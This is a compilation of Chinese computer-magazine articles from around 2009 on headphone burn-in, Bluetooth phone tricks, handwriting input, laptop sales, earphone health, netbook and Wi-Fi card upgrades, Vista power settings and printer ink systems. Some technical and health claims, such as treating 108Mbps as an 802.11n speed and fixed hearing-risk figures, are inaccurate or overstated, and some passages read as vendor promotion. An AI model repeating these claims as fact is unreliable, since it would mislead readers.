正规的煲机方法主要分为以下两种，其效果差距不大，都能在一段时间内让器材得到不错的“锻炼”。

1. 用专门的频率发生器来生成某一段固定或扫描的频率然后输入到耳机这样来褒，这种方法效果比较明显，所使用的时间也能缩短很多。此种仪器价值不菲，但其煲机的功效是其副业。
2. 电脑爱好者编出了一些程序，利用计算机处理出一些波形、频率，通过声卡输出，达到一些真实频率发生仪器的效果，这就是所谓的“虚拟仪器”褒机。比较著名的Audio100煲机软件便是基于这样的原理，因其频谱覆盖比较大，所以即使电脑的声卡不好也不会影响煲机效果（下载地址为：http://dl.pconline.com.cn/html_2/1/123/id=1588&pn=0&linkPage=1.html）。

**条条大路通罗马**

正规方法的缺点不言而喻，不论是频率发生器还是电脑，我们都不可能随身携带。而偏方正式解决了这个难题，一台收音机，一个MP3即可。

直接接上收音机，调到一个无电台的频率上，利用收音机发出的“嘶嘶”声（粉红色噪声）长时间让耳机工作，以达到褒机的效果。

使用测试碟用30%~40%的音量连续播放10小时~30小时，休息一天后有选择的连续播放不同风格的CD碟10小时~30小时（包括人声、交响、电子乐、流行和AV现场），接下来选择你最喜欢的CD用较大的音量（50%~75%间，以个人听音时习惯选择的音量为基准）播放1小时~2小时，最后恢复中等音量播放柔和的音乐（比如班得瑞或钢琴曲）。

# 智能手机 + 个人电脑——疯狂的蓝牙

如今大多数手机和笔记本电脑都具有蓝牙功能，哪怕古老的电脑，插上一个USB模块，也能够轻而易举地实现蓝牙功能。但是你知道吗？蓝牙不仅可以用来收发照片、接打电话，它还有许多不为我们所熟知的深度“秘密”。

# 剪断长线，让手机变身无线摄像头

是不是常遇到这样的问题，到了学校或是单位，视频聊天却又找不到摄像头？给好友展示一下自己精心布置的房间，摄像头的线又不够长？不用着急，因为手机就是一部无线摄像头！

首先，需要下载一个名为Mobiola Web Camera的软件（下载地址：http://www.warelex.com/products/webcam）并将其PC端和手机端软件分别进行安装。这里我们以Mobiola Web Camera 2.2 for S60v2为例，根据电脑蓝牙驱动程序的配置，在Mobiola Web Camera的PC端界面中选择正确的COM端口号，使状态栏第三格显示Status: Ready。

COM端口号的确定方法因蓝牙驱动程序的不同而不同，如笔者这台电脑使用的是IVT BlueSoleil的蓝牙驱动程序，那么就在电脑系统托盘中打开蓝牙图标的快捷菜单，选择“我的设备属性”，然后在其“串口”选项卡中查找“连入”的端口号。需要注意的是，部分版本Mobiola Web Camera存在一定的设计缺陷，蓝牙连接及其COM端口的选择需点选右侧USB Connection前的单选按钮及其下方的下拉菜单。接着打开手机端“选项”菜单，选择Connect下的Bluetooth选项，软件就会自动搜索周边的蓝牙设备。搜索完成后，选择列表中我们的计算机。几秒之后，PC端的界面和手机端的屏幕上就同时出现了拍摄的内容！是不是很神奇？主界面Video选项卡右边一些滑块是调节画质、压缩率等功能，还有用来截屏和旋转画面的按钮，可根据自己的喜好调节和使用。

单单在电脑屏幕上显示出图像当然还远远不够，想想看我们还能用它来做什么？没错！用它视频聊天！方法很简单，电脑和手机连接成功后，将PC端的窗口最小化（注意不能关闭），打开QQ，点击聊天对话框上方摄像头图标右边的小箭头，选择“视频设置”，在“请您选择您的视频设备”下拉菜单中选择Mobiola Video Source，这样你就可以像使用普通摄像头一样使用你的无线摄像头啦！

# 有了蓝牙，躺在床上也能高速上网

流畅地用手机上网、看电视、收发电子邮件，甚至是视频通话难道只是3G手机的专利吗？当然不是！有了蓝牙，你也可以躺在床上高速上网，在炒菜的同时流畅地欣赏网络电视了！

此次所需的软件主要有两款：m-Router 3.1（下载页面：http://developer.intuwave.com/Downloads/m-Router/mRouter3Installer.exe）和Gnubox（下载页面：http://www.sisdown.com/game/1754.html）。

先将m-Router 3.1安装至电脑。安装完成后，屏幕右下角的系统托盘中会出现电脑形状的图标。右键点击该图标，打开“高级设置”，在弹出的对话框中点击“查看”按钮，选择正确的COM端口号（如上文中的COM4），点击“>>”按钮将该端口添加到右边的列表框中，然后点“确定”退出。

接着，在手机中安装和手机型号对应的Gnubox。安装完成后，在手机上添加一个蓝牙接入点。以Nokia N70网络版手机为例，进入接入点设置后，打开“选项”菜单，选择“新增接入点”下的“使用默认设置”。连接名称填写Bt，数据承载方式选择“分组数据”，接入点名称也是Bt（以上输入均需要区分大小写），其他选项保持默认值。填写完成后按“返回”退出。

打开刚刚在手机上安装的Gnubox，先依次执行“选项”菜单Install子菜单下的create records和set RAS login script命令，退出Gnubox后重新进入Gnubox，选择“选项”菜单2box Bluetooth子菜单下的Serial port，让手机搜索到你的电脑，这时屏幕提示Do you want to require encryption?选择“是”。然后再执行“选项”菜单下Install子菜单的change default AP命令，最后执行“选项”菜单Debug子菜单下的Bring up IF命令。若中途报错，则需先检查电脑及手机的蓝牙功能是否启动，然后再重新执行这一步。这样，Gnubox就配置完毕了！

长按功能键，把Gnubox放在后台运行。这样，你的手机就能用蓝牙高速上网了，而且更重要的是，这样上网丝毫不用担心花费手机的GPRS流量，因为它使用的是电脑所接入的宽带网络。以后再连接时，只需在蓝牙功能开启后运行Gnubox，在“选项”菜单中依次点选Debug和Bring up IF即可，若报错再试一次即可。

配置完Gnubox后，接入点Bt就会被隐藏起来。如果要新建或删除Bt接入点，则需打开Gnubox，在“选项”菜单中依次点选Install和delete records，删除原有的Bt接入点。

不同软件通过蓝牙上网的接入点配置方法大致相同，比如Opera Mini和UCWEB 6.0浏览器只需将接入点由原来的CMWAP或CMNET等改为Bt及“直连互联网”等即可，手机电视软件（如FunVv和部分版本的UCPlayer等）稍微特殊一些，它们需要事先通过CMWAP或CMNET连接将流媒体地址通过一定方法导入播放器中，然后再通过蓝牙接入点连接。

需要说明的是，每一款软件，甚至同一款软件的不同版本都不一定能够很好地支持蓝牙接入点，比如UCWEB的6.0版支持通过蓝牙接入点上网，但最新的6.3、6.5版却不支持，QQ、UCPlayer等的部分版本也是一样。经笔者测试，在塞班S60第2版手机操作系统中能够正常通过蓝牙接入点使用的软件有：Opera Mini、FunVv、UCWEB 6.0等，同时也可以根据自己的需要，测试一些常用的软件。

# 自己动手，用蓝牙给PC加个遥控器

你是否有过这样的经历：冬天躺在床上，不想起来，却又想让书桌上的电脑播放电影或是歌曲？或者，你在向别人演示PPT的时候，每次都要为了切换幻灯片而频繁往返于屏幕和电脑之间？如果有的话，现在开始，蓝牙就可以帮你免去这些烦恼！

这是我们需要Bluetooth Remote Control 4.0软件（下载页面：http://www.sisdown.com/soft/17912.html）。这款软件同样分为手机端和PC端，安装也同样十分简单。安装完成后，运行PC端，在对话框中选择正确的COM端口号（如COM4），然后依次点击Apply和Ok。

打开手机端软件，软件会自动提示是否允许应用程序使用连接功能，选择“是”。进入主界面，选择Settings，把连接方式改为COM Port，然后返回。

第一次使用该软件时需要在主界面下执行Search，这样软件才能搜索到你的电脑，搜索到你的计算机并让你确认后，软件就开始尝试和电脑连接了。以后如果想再连接同一台计算机，就不用再搜索了，直接选择主界面的Connect即可。连接完成后，PC的蓝牙遥控器就打造完成了！这时，手机屏幕会显示一个菜单，列出手机所能遥控的对象。它可以实现诸如对鼠标、键盘的控制、PPT播放导航、媒体播放器控制和系统音量调节、关机等操作。具体的热键设置可以按手机的星号键查看帮助文档。

> (天津/陈阳)

# “电脑失写症”——无文时代的到来，你们恐慌吗？

何为“电脑失写症”？这应该不算是一个崭新的词汇，心理医生将人们因长期使用电脑打字，而不会书写汉字，发生心理恐慌的症状称之为“电脑失写症”。暂且不说这是电脑的“功劳”，还是手机的“罪过”，可以肯定的是“键盘输入”惹的祸！毫不夸张地说，键盘输入法的流行并大行其道，是中国文化的一种慢性自杀游戏，一些有识之士对此发出了警告：我们正在进入一个“无文的时代”。

在各色的出版物中，甚至是中小学生的课本辅导教材乃至幼儿读物中，早已是无错不成书。错字、别字随处可见，真假莫辨。至于在流行歌曲、店铺招牌、各类广告、电视字幕上出现的错字、错词、病句，更是俯拾即是。长此以往，汉字会消亡吗？白话文运动以来，关于汉字存废兴亡的争论没有停息。上世纪60年代曾有过汉字键盘化的设想与尝试，但很快被否定。如今，悄悄发生的这些变化，正是那些争论的后续！

英文的输入和书写，基本上是一回事，所写既是所想，所以人家并不会因为长期使用键盘就会忘词、忘字。而我们用键盘输入汉字就不太相同，最终文字与所想、所敲并不相同。造成这一严重危机的根源，就是把字母键盘当成了思维和书写的载体，而汉字的笔画与结构，却蜕变成了思维和书写的客体，汉字因此而成为我们语言的“第二层衣服”，亦即成了键盘的衣服。这种主客易位、本末倒置的做法，便是对汉字的自我疏远，对汉字文化的自我阉割！

# “键盘”能代替汉字吗？显然不能！

我们在盲目的追求效率时，却开始了对自有文化的否定与遗忘，多年之后还会有多少人记得汉字的意义呢？你们可曾有过恐慌的感觉？是时候转变观念了，键盘不是我们应该倡导的输入方式，手写才是中华民族的最终选择，为了我们的文化遗产，为了不会遗忘我们的文化根基。

中文手写识别技术经过多年潜心研发，颇为成熟。从一笔一划的输入，仅能识别正楷字体到现在整句连笔识别，有着突飞猛进地发展，对于用户来说，中文手写早就可以满足日常办公、生活的需要。且该项技术已拓展到多个终端设备上，如手机、PDA等，就连新近发布、具有电子油墨技术的汉王N518电纸书上，也能看到手写中文识别的深度应用。

撰写本文时走访了汉王科技，问及为何该公司将手写识别作为主力项目研发？他们回答到：手写输入符合国人的书写习惯，简单易学，使消费者能够更快捷地将信息输入终端设备；另一方面，对于我们独特的汉字文化，也将起到巨大的延续和发扬作用，而对于功能越来越多，操作越来越复杂的高端手机来说，手写笔还能起到系统操作、程序控制等作用，就像PC系统里的鼠标一样，会成为应用中不可缺少的人机互动设备之一。

“读书破万卷，下笔如有神”，现在还有人会记得这些话吗？万物皆在电子化的时候，千秋纸墨的局面被打破了，谁来为我们的文化而复兴呢？其实当“电脑失写症”出现的时候，人们便已经开始重视输入的重要性，但由于懒惰或其他原因，大家依旧如此的进行着往日的操作习惯，并没有将手写输入与键盘输入的问题“上纲上线”，也就成为了现今的局面，汉字在逐步被遗忘，我们的文化在流失。

是时候回归了，无论是谁，都应该将“写”这个遗忘的动作拿起来了，让汉字文化在电子大潮下传承下去，因为它是祖先伟大创造，也是我们中华5000年文明的见证。

> (文/本刊记者张博)

# 暑促到了 消费者不能只认低价

为什么每年暑促这么火？厂家用尽全力促销新品，各种礼包、降价、新品、促销手段五花八门。从消费者的角度来说，暑期往往是一年中释放购买力最强的时间段，比如中考、高考结束，准备购机的学生群体，或者上班族准备年中奖金犒劳自己。而在厂商方面，暑期又正好是新品频发后的上市高峰时段，面对如此庞大的消费需求，厂商自然会竭尽全力搞各种促销吸引眼球。不过，这两年的暑促特点实在是太好总结了，降价，只这两个字就足以概括近两年的暑促特点。在了无新意的促销大战面前，消费者一定不能只向“钱”看齐，产品本身的质量、功能是否符合自己的要求才是根本。

## 暑促不能向“钱”看齐

小赵工作刚满两年，回想起往年暑期购买的事情，还是那么津津乐道：“记得还上学那会，MP3才刚刚火起来，商家促销是买MP3送电影票，还有小礼包，虽然价格只给打了9折，但我还是很高兴。和女朋友一起拿着MP3去看的电影，别提多高兴了。”小赵的感慨不是没有道理，这不，去年的小赵获得了公司提供的办公用机（笔记本电脑）报销资格，时值2008年8月，他去了卖场购买了一款笔记本电脑。当时这款产品刚刚发布3个多月，也算得上新品，但因为暑促价格跌了近10%，还是比较划算的，只是少了那么一丝兴奋。不曾想2008年底这款本本就出现了故障送修了，而且使用期间，系统总是非常热，一点儿也不好使。比起身边那个已经使用了4年的MP3，小赵才有感而发。

促销降价自然是好事，但是产品本身的功能特性、产品质量，以及给的优惠政策，应该是“齐头并进”，同等重要的。如果只以价格吸引人，这个品牌的产品怎么能够吸引人呢？厂商有一种营销手段叫口碑营销，显然，如果只是光靠价格吸引用户，这个品牌的产品不会被人口口相传，让更多的人接受了。

## 华硕要用品质撼动人心

这不，2009年的暑促即将来临，这个话题又再度热络起来。厂商要赚钱，自然不会放过这个黄金销售时间段，诸多笔记本电脑厂商都表示要花血本搞暑促。我们了解到，几乎所有的笔记本制造商都开始为暑促做准备了，有些是以价格为先导，降价，再降价；还有些厂商则以产品本身为先导，力求为消费者提供更好的使用感受。前不久，我们就借着华硕发布U/UX系列笔记本电脑的发布会，与华硕电脑笔记本产品中心总监赖裕文先生进行了探讨。

新闻链接：2009年6月10日，华硕电脑在北京召开了主题为“轻盈之光 一触绽放”的新品发布会，正式推出了轻薄时尚笔记本U系列；12.1英寸至15.6英寸领域的U全尺寸机型，覆盖了从便携到影音效用的全方位应用领域；其中UX30在极致轻薄的机身内兼具全能应用方案，成为继Macbook Air之后又一款超轻薄经典。

赖裕文先生指出，今年的暑促，华硕U系列新品中UX30将成为最重要的暑促明星。之所以选择这样一款不以价格为先导的产品，华硕是经过缜密思考的。“我们认为产品的自身竞争力是最重要的，每一个设计细节，最终体现在产品上，就是要让消费者感受到好用，这是非常关键的。我们举个例子来说，你看很多以价格为主打的促销产品，轻轻按下盖子，是不是凹进去了？这是它的硬度不够，消费者用笔记本就是为了能够方便携带，这么一个不结实的笔记本，带出去怎么能放心呢？我们认为，消费者最终买到的是品质，是使用感受。你不能光靠价格去衡量一切，你要是把价格降下来了，但不好用，消费者怎么会认同你的品牌、认同你的产品呢？”

以华硕此次发布的新品UX30为例，华硕将促销的关键点放置在了产品设计上，比如外观上的简约设计、重量上的超轻设计、长效的待机时间，以及不输于传统笔记本的性能，最后再加上一个合理的价格，这样的促销点才是最应被消费者关注的。而不是XX笔记本只卖XXXX元，超低价确实能忽悠消费者一时，但绝对不能忽悠消费者一世！

## 评测编辑说价格不代表一切

从业这几年，给我的感受还是那句老话“便宜没好货，好货不便宜”。仔细看看咱们身边的这些笔记本电脑，低价机可以用一句话形容‘电路板+塑料壳子’，为什么这么说呢？拿车市来举例子吧，你看最初大家买车都是想买三厢的，功能大而全，不管怎么样，有了三厢轿车就算有面子。现在呢？有人喜欢SUV，有人喜欢两厢车。为什么？需求变了。最初大家解决的是有或没有的问题，现在大家追求的是好还是更好的问题。”某网站评测工程师王先生讲到。

笔记本发展这几年价格一路走低，可是不少用户买过来抱怨之声不绝于耳，这就最说明问题了。所以，我们认为，买笔记本的时候设置一个能够承受的价格线是合理的，但最终决定购买的，还是产品本身的使用感受、品牌口碑，以及产品质量。也就是说，消费者要把自己的需求摆放在第一位，然后再考虑其他，不能反其道而行之。

（文/本刊记者 西浩铭）

# 面对不容忽视的危害 选购绿色耳机吧

绿色环保是近年来社会各个层面都在宣传的概念，我们身处的IT领域也不例外，绿色机箱、绿色显示器、绿色电源……各种绿扑面而来，却很少有厂商去宣传绿色的听音产品，这是为什么？

通常声音的分贝水平
| 分贝水平 | 描述 |
|----------|------|
| 60分贝 | 每天的交谈、电话 |
| 70分贝 | 餐馆 |
| 80分贝 | 大城市交通、1米内的闹钟、工厂噪音、吸尘器 |
| 90分贝 | 地铁、摩托车 |
| 100分贝 | 电锯、钻孔机 |
| 110分贝 | 舞池 |
| 120分贝 | 摇滚音乐会歌手声音、雷响 |
| 130分贝 | 喷气式飞机起飞、大炮 |

## 究其原因，重视程度不够而已！

不是厂商不够重视，而是用户不够重视。消费者不去重视这些问题，厂商自然不会花时间、精力去研发、宣传这类产品了。

小知识：研究人员发现，常常暴露在高分贝音乐下的人患听觉神经癌的危险是常人的2.5倍，以地铁车厢或繁忙的交通道路为例，背景噪音高达85至100分贝，要盖过背景声，随身听的音量往往高于100分贝。根据研究，不应在100分贝的噪音环境下逗留超过15分钟，否则听力受损伤，然而有几个人会一天只用随身听听15分钟音乐？这些不良习惯会破坏听觉，但这种伤害并非立竿见影，因此容易被忽略。

人耳的可闻音域范围，是20Hz到20000Hz。20Hz以下的声波，称为“次声波”，能量很强烈时，身体可以感觉到（比如地震的时候），但耳朵是听不到的。能量极强的次声波甚至可以杀人。高于20000Hz的称为“超声波”，人耳也听不到，但很多动物，如狗、蝙蝠，可以听到。人耳对高频的感知力会随年龄增长而衰减，所以幼年时几乎人人能听到2万赫兹的声音，但中年以后，由于耳细胞的老化、损坏，很多人就只能听到15000Hz甚至更低了，听不见极高音。正常的频段为200Hz~6000Hz间，也是对耳膜刺激较少，听起来比较舒服的领域。

## 乐味 MB03 健康耳塞

如果将乐味MB03的参数罗列出来，可能会让很多人嗤之以鼻，它的某些参数可能并不好看，听音效果也不甚理想，但它面世的目的很明确，是为健康而生。乐味MB03的特点很简单，在设计制造过程中，有意识、有效地滤掉对耳朵有伤害的高、低音部分，对耳膜起到了很好的保护作用，减少耳塞对听力的损伤。很值得长时间使用耳塞听音的用户选购，毕竟谁都不想在中年时便使用助听器这类高科技产品，万万不可依仗自己的年轻来透支未来的健康。

但需要说明的是，哪怕是使用了绿色健康耳塞，在使用过程中也请遵循时间上的限制，让耳细胞有着充分的休息、恢复时间，减少个人听力损失。以使用播放器60%的音量为例，最长收听时间为1小时，超过一小时则会对耳膜产生严重损害。音量越大则时间需逐级递减，它们间的关系为反比。

最后容笔者唠叨一下：纵观现有市场，所有售卖的耳机产品均没有相关的健康提示，且MP3、MP4等需要耳机的设备内说明书上也均没有关于噪声危害与使用须知，让消费者完全忽视了此方面的问题。听力受损不如视力等其他器官受到损害来得立竿见影，这也是用户忽视了用耳卫生的一个重要原因。在宣传健康方面，微软公司做出了表率，每一款微软硬件驱动内和说明书上，均有着健康使用提示，教会用户如何维护自身的健康。在企业责任心上，其他公司是如何做的呢？

# 上网本为什么只有1GB

上网本现在的价格已经足够便宜了，低配的均价在2700元一线，高配的也不过3500元，还是比较划算的……且慢，为何高配竟然只有1GB内存、160GB硬盘？低配更是只有512MB内存？

Windows XP的流畅运行所需内存，经过实践证明，全机达到1.5GB才能体会到“流畅”二字的含义。其实，内存和硬盘的价格都已经足够便宜了，像1GB的DDR2内存，即便是前一阵涨价之后，也不过100元之内，最便宜的甚至只要80余元。那为什么上网本的最高配置也不给提供2GB内存呢？答案是微软在“搞鬼”：根据微软的强制性要求，上网本的配置不允许超过1GB内存，否则将不提供Windows XP系统授权！

## XP系统授权！

好在，Intel还算“慷慨”，改良过的Atom上网本平台芯片组允许最大使用2GB内存，因此强烈建议玩家升级内存到2GB，开销有限，但效果提升明显。并且经过测试，2GB内存下上网本还能够较为流畅地运行Windows 7系统，所以，不要吝惜这100元不到的开销啦！

最后需要提醒一点的是，部分老款配备512MB内存的本本是板载512MB内存的，所以最大的升级能力只能是1.5GB（单条最大1GB），所以要特别注意一下，拆开上网本背面的内存扩展插槽挡板就能分辨了。

## 升级无线网卡 要稳定还是要速度

108Mbps的无线路由器现在已经很便宜了，大部分品牌都推出了300元以下的产品，一如当初54Mbps无线路由器普及时的价格。买新本本的用户自然是很容易就能享用到——很多新本都是采用802.11n草案设计的无线网卡，老本本的用户则必须通过升级才能获得该项功能，不过好消息是，即便是升级，代价也比较低廉，完全可以承受。

## 升级前接口需分清

Mini PCI插槽是在PCI的基础上发展起来的，Mini PCI的定义与PCI基本上一致，只是在外观上进行了微缩。目前使用Mini PCI插槽的主要有内置的无线网卡、Modem+网卡、电视卡以及一些多功能扩展卡等硬件设备。而Mini PCI-E自然就是PCI-E的接口微缩版，作为新一代的笔记本用接口技术，它拥有更快的传输速度。2006年以后的笔记本电脑全面采用了Mini PCI-E接口，从外观上看，前者的金属触点明显要多很多，设备宽度要多于长度，后者与之正好相反。

## 老本升级莫遭‘李鬼’算计

所谓108Mbps多指符合802.11n协议的一种无线网络传输速度，尽管到现在这个协议还是草案而已，但是已经成为标准，符合这个标准的设备无论接入哪一个无线热点，只要符合这个协议，都能以108Mbps的连接速度传输数据。但是，很多无线网卡虽然也能够支持108Mbps，但它并不是基于802.11n协议的——这类网卡通过MIMO技术超过了54Mbps的802.11g传输协议标准，只是，它需要客户端和服务器端都采用同一标准的产品，这个情况多集中在Mini PCI设备上，芯片多为Atheros的。所以，购买前不能狂热地追求速度，看清标准亦十分关键。

Atheros AR5424支持802.11ABG G+标准，通过MIMO技术实现108Mbps，并不符合802.11n协议，注意，该‘李鬼’还有‘李鬼’，型号为AR5423，两款产品贴纸上都是AR5BX86，但只支持54Mbps；AR5416则是Mini PCI规格下符合802.11n协议的无线网卡，价格在150元左右，另外的选择就是Marvell 88W8363了，该卡同样支持802.11n，也是Mini PCI规格，售价在160元左右，比较稀少（Marvell产品都是拆机卡，并且全部为无路由器端的）。

## 速度还是兼容性？选择多多

使用Mini PCI-E接口的本本升级就相对容易一些了，可选的产品包括，Intel 4965AGN，Intel 5100AGN，Intel 5300AGN，Broadcom 4311，Atheros AR5418等，其中Intel 4965AGN的价格最便宜，按照成色不同平均在50元内，但它的连接能力比较弱，信号不佳，兼容性也不好，更大的问题是耗电较高；Intel 5100AGN和Intel 5300AGN的性能表现尚可，但前者的兼容性同样较差，后者的劣势是价格过百，不过Intel无线网卡具备一种名为My Wi-Fi的新技术，应用性更广阔；Atheros AR5418则是当前的无线网卡卡王，性能非常强大，因此价格也偏高；Broadcom 4311的优势是兼容性奇佳，被誉为兼容之王，价格也相对合理。

## 网络大补贴：

让笔记本当AP 英特尔My Wi-Fi网络解析 http://digi.tech.qq.com/a/20090602/000059.htm

价格方面，除了速度最快的Atheros AR5418售价较高（120元~150元），Intel 5300AGN（130元左右），其他产品都比较便宜，平均价格仅为60元！这是因为该接口比较普及，Mini PCI接口属于淘汰技术，所以生产的量也较小，物以稀为贵，自然价格就低不了。

## 网购最佳，成色要辨别

笔记本内置无线网卡的货源大部分都是二手产品，所以在卖场里，你需要仔细找才能搜索到，因此我们更推荐网上购买，但要注意，很多商家都是互相抄袭页面，卡的成色很难通过图片辨别，最好的办法是叫他发过来一张实物图检查，并让商家作出相应承诺，成色与实物图大致相当。

小编的亲身经历就是购买了一块Atheros AR5418无线网卡王，售价是150元，当时没仔细注意就拍下来了，看图片是全新成色，但介绍写的是二手9成新。到货后大失所望，顶多也就是5成新的样子，最终经过艰苦的拉锯战，商家退款了30元，最终120元成交V_V，所以，网购时务必要看到实物图再做决定，这样可以免去不少麻烦。（文/TKD）

## Vista电池延时术 要多久有多久

Thinkpad最出名的是什么？一个是管理连接网络的Access Connections，另一个就是电源管理Power Manager了，电源管理可以最大限度地延长电池使用时间，可是不少本本都不具备这类管理软件。实际上，Vista系统自带的电源管理就已经非常出色了，只不过大家都忽略了而已……

## 从哪里做起

‘开始→设置→控制面板→电源选项’，从这里开始我们的设置之路吧：Vista为我们提供了13大项的设置调整空间，电池延时开始啦！

## 创建新设置

在电源选项中，我们常见的就是三项‘已平衡、节能程序、高性能’，别着急，单击左侧栏中的‘创建电源规划’，让我们用心设置吧……

## 用庖丁解牛的精神来挖掘电池潜力

创建好自己的电源计划，输入一个新名字，然后点击‘下一步’。在这里，点选‘更改高级电源设置’。接下来，进入最最详细的设置界面。

### 无线适配器

无线适配器中，选择设置为‘中等节能’效果最好，根据测试，处于‘最高性能’的时候，耗电要比‘中等节能’高出近15%。也许有玩家会问，那干脆设置‘最高节能’好啦？实际上，‘最高节能’虽然更节电，不过网络信号的接收强度也大大降低，太影响性能的地方还是迁就一点的好。

### 睡眠

睡眠中最需要修改的是‘允许混合睡眠’，将其设置为打开，它可以帮助玩家在睡眠待机时更省电，1%我们都不放过哦！

### 小知识：什么是混合睡眠？

混合睡眠（hiber-sleep）是指待机（stand-by）和休眠（hibernate）同时进行。功能启用时，系统会把信息保存到内存的同时写到硬盘的hiberfil.sys文件中。副作用是再次恢复时较慢，但是比起普通的待机功能，基本上不会耗费电力。

### 小技巧：USB鼠标也能唤醒本本

睡眠时，本本要恢复状态，按下电源键即可，其实，USB鼠标一样可以实现这个功能哦，在‘睡眠’选项下边的‘USB设置’中，将‘USB选择性暂停设置’中两项全部更改为‘已停用’，然后在设备管理器的鼠标属性中，切换到‘电源管理’一项，勾选‘允许此设备唤醒计算机’即可。

### PCI Express

Vista电源管理最牛的就是可以控制到本本更深一级的设置，例如PCI Express设备，比如像无线网卡就是用这种接口的（包括迅盘、3G上网卡都是此接口），在该项中更改为‘最大电源节省量’，实际对比，同样环境下这个设置可以节省大概5%的电力消耗，还不错哦！

### 处理器电源管理

现在本本的处理器平均功耗一般都是35W或25W，消耗电力占到全机的20%以上，不优化一下怎么行！在‘最小处理器状态’中，设置为‘3（%）’；‘最大处理器状态’中更改为‘85（%）’。这样可以进一步压榨电池容量，在损失性能几乎可以忽略不计的情况下，节省大约10分钟的电力，还是很划算的！

### 显示

显示屏就更恐怖了，一般耗电要占到全机的30%以上。在‘显示器亮度’中，设置亮度为‘65（%）’，除了在阳光直射的情况下，这个亮度足够看清屏幕内容了。此外，不少新本本都用的是LED屏幕，亮度更高，甚至还能设置得再低一些呢，光这一项，就能为本本延时将近15分钟！经过这么一番优化，一台普通本本的电池至少可以延长30分钟的使用时间，要知道一块电池平均也能提供4小时的续航时间哦，只是动动鼠标，就平添了1/8容量的电池！（文/TKD）

## 为什么联想Y550不能用桌面导航

上个月新买的联想Ideapad Y550，依旧使用不习惯Vista，想想Windows 7还有段时间才出正式版，现在只能换回Windows XP了，装好系统后安装各种驱动程序，却发现无论如何Y550的桌面导航功能，就是Slidebar不好用了……

1.  首先下载联想Ideapad Y550的桌面导航Windows XP版驱动程序（下载地址：http://driverdl.lenovo.com.cn/lenovo/DriverFilesUploadFolder/notebook//20093199462046929/Y650_Y550_XP_DesktopNavigator.exe）。
2.  下载替换用的文件（下载地址：http://work.newhua.com/cfan/200912/ldn.rar）。
3.  安装Net Framwork（下载地址：http://jtele3.skycn.com/down/dotnetfx35.zip），安装完毕并重启系统后，Windows XP下桌面导航功能又可以正确使用了。如果发现指示灯不能亮，找到C:\Program Files\Lenovo\Desktop Navigator目录下的配置程序ConfigWindow.exe，勾选“灯效”即可。（文/JKboy）

## 省钱的办法多——多功能一体机迎娶连供系统

怎样给一体机选用适合的连供系统？留意品牌的相关产品，不同的连供系统都会指定适用的打印机和一体机机型。比如，以EPSON RX-590六色一体机为例，它可选佳盟、格之格、另色鬼和墨C哥等品牌的连供产品，其中这些品牌兼容型号为T0821-T0826墨盒，指定适合EPSON R270/R290/R390/RX590/RX610/RX690这些机型。所以选用这些品牌的连供系统，即可适合EPSON RX-590机型。接下来比较这些品牌的连供系统后，佳盟的产品在安装和使用上更加适合本机，所以在选择连供系统时首先应实地考察。

-   ★第1步：在安装连供系统之前，应该先对一体机进行打印检测，确保一体机完全正常方可安装。在安装连供系统时，先将外置墨盒平放，让气孔里的墨水流入加墨孔内，确保恒压。然后，拔下大胶塞，将其换成空气过滤器。
-   ★第2步：在安装内置墨盒前，可先将一体机墨车拖动到合适的位置（如果墨车不能拖动，可以用平口螺丝刀将墨车锁顶进去，或参考一体机说明书）。接着用平口螺丝刀将墨盒盖撬开并取下，卸下一体机里面原来的墨盒，然后像安装原装墨盒那样，将连供系统的内置墨盒装进去。安装时注意正确安装，将连供的内置墨盒放入墨车中压紧，使其芯片与墨车的芯片紧密接触。
-   ★第3步：安装内置墨盒后，需要注意供墨系统的外置墨盒必须和一体机保持在同一水平面，让连供内置墨盒里面的气压平衡，打印时不至出现漏墨或不出墨这些情况。
-   ★第4步：将连供的管线支架粘贴到一体机墨车走廊中间位置，并使用管线卡将墨盒固定在一体机中，同时将墨车拖动到左右两端，调整管线长度并理顺管线，使得管线不会影响墨车的运动。
-   ★第5步：管线支架调整好后，再布置管线的走线方法，使其不会阻碍一体机组件的正常使用，尤其是机中的扫描仪和打印区的合盖。如果管线零乱或太长，可延长管线一路安装管线支架或贴上魔术贴，固定管线。
-   ★第6步：安装完成后，可先对连供系统进行复位检测。通常安装连供系统后，如果一体机面板的指示灯闪动，或者电脑提示“墨尽”，表示需要复位，这时如果连供系统是自动复位，不需再进行任何操作；如果是断电复位，则需在开机状态下，拔开电源线以进行复位。

-   ★长途运输或长期不用连供系统，应该关闭管线控制阀并塞好透气孔。墨水用完后，应该尽量选用与连供系统同品牌的专用墨水添加，否则会容易引起偏色甚至堵头。
-   ★选用墨水则应该选用质量可靠的，不宜使用杂牌的墨水产品，事实上很多使用连供系统出现的故障，都是由于墨水质量欠佳所致的。
-   ★由于使用连供系统，在打印的过程中往往会产生较多的废墨，因此平时应注意废墨仓的清理。

### 安装总结

在选购连供系统时，应该根据自己的一体机的情况，选择适合布线的连供产品，比如是选择左边放置外置墨盒的，还是右边放置的，以及选择走线更科学些的产品。此外，如果一体机机身内的空间比较狭窄，则可以找一些又细、又软的供墨管，以及尽量利用一体机的凹槽进行布线，以减少出现压墨管的情况。

如果连供系统本身输墨管上的塑料卡扣阻碍了实际安装布线，可将塑料卡扣拆卸，直接用透明胶把墨管贴在固定平台上。因为连供这种设备并不是需要按照说明书按部就班地安装，只要到最后能把墨管固定好，让墨车能够移动自如就可以了。其实，正确设置管线的走向和安装支架，除了可以保证一体机墨车正常运作，外置墨盒的墨水能够正常供墨之外，还可以起到改善一体机外观的作用。所以在布置管线时要特别注意。

## 大牌就是系列多：东芝篇

东芝自从1985年开始销售世界上第一批轻便型（那时还不叫笔记本电脑）个人电脑以来，如今已经将这条产品线细分为Portégé、Qosmio、Satellite和Tecra四大系列，其中Qosmio、Satellite面向大众消费者，Tecra面向商务用户，而Portégé则两个领域都有涉及。

首先来看Qosmio，这个词源于意大利语结合英语单词cosmos中的cos（宇宙）以及意大利语中mio（我的），意为“我的宇宙”。所以该系列强调个性，强调影音效果的形象也就一目了然了。由于将重点放在高性能、多功能以及华丽的效果上面，Qosmio系列的产品往往在移动性方面比较欠缺，适合放在家里当做娱乐中心，而非随身的玩物。比较适合资金充裕、喜欢追求前卫感觉和华丽声光效果的时尚一族购买。

离我们比较近的要数Satellite系列了，这个系列的笔记本电脑拥有很高的性价比，功能全面且配置均衡，价格也不贵，在4000元~7000元价位中有很多实用机型可选，应当作为我们普通玩家购机时的首要考虑对象——或者说，如果你对笔记本电脑没什么特殊要求，那就买Satellite系列吧，不会让你失望的。

